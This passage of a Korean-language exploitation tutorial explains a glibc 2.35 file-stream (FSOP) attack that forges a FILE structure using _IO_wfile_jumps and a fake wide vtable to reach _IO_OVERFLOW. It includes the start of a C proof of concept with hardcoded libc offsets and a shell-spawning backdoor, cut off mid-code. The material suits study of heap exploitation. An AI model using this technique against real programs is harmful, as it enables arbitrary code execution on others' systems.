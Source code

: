 - `fp->flags = 0`
- `fp->vtable = &_IO_wfile_jumps`
- `fp->mode = 1` (0보다 큰 값)
- `fp->_wide_data->_IO_write_ptr = 1` 혹은 `&anywhere_rw`
- `fp->_wide_data->_IO_write_base = 0`
- `fp->_wide_data->_wide_vtable = &fake_vtable`

이 중에서 `_IO_write_ptr`은 `_IO_write_base`보다 크기만 하면 되지만 포인터 주소가 들어가다보니 가능하다면 read / write가 가능한 영역을 할당받아 그 주소를 써주는 것이 좋을 것 같다.

![allocate fake file stream pointer](https://github.com/user-attachments/assets/0f475106-d84e-4304-b190-9be74dd4411f)

새로운 `fp`를 구성했다면 위 이미지와 같이 메모리가 구성되는데, 마지막으로 해주어야 하는 것은 `_IO_list_all`을 unlinking 하는 것이다.

![unlink _IO_file_list_all](https://github.com/user-attachments/assets/baa309b6-e38e-4e36-8e3a-d74bfbcb4259)

`_IO_flush_all_lockp` 함수에서 `_IO_list_all`에 담겨있는 file stream을 순회하며 `_IO_OVERFLOW`를 호출할 조건이 충족됐는지 확인하기 때문에

1. 위 이미지처럼 `_IO_list_all`이 새로운 `fp`를 가리키게 함
2. File stream의 `_chain` 필드를 잘 조작해서 `fp`가 중간에 들어가게 함

두 방법중에 가용한 방법을 채택하면 된다.

## 0x03. PoC
``` c
//GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.
//Compiled by GNU CC version 11.2.0.
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>
#include<unistd.h>
#include<string.h>
 
void backdoor()
{
    system("/bin/sh");
}
 
int main()
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
 
    char *p1 = calloc(0x200, 1);
    char *p2 = calloc(0x200, 1);
    char *p3 = calloc(0x200, 1);
    
    size_t puts_addr = (size_t)&puts;
    printf("[*] puts address: %p\n", (void *)puts_addr);
    size_t libc_base_addr = puts_addr - 0x80e50;
    printf("[*] libc base address: %p\n", (void *)libc_base_addr);
 
    size_t _IO_2_1_stderr_addr = libc_base_addr + 0x21b6a0;
    printf("[*] _IO_2_1_stderr_ address: %p\n", (void *)_IO_2_1_stderr_addr);
 
    size_t _IO_wfile_jumps_addr = libc_base_addr + 0x2170c0;
    printf("[*] _IO_wfile_jumps address: %p\n", (void *)_IO_wfile_jumps_addr);
 
    char *stderr2 = (char *)_IO_2_1_stderr_addr;
    puts("[+] step 1: change stderr->_flags = 0x0");
    *(size_t *)stderr2 = 0;

    puts("[+] step 2: set stderr->_wide_data = p1");
```
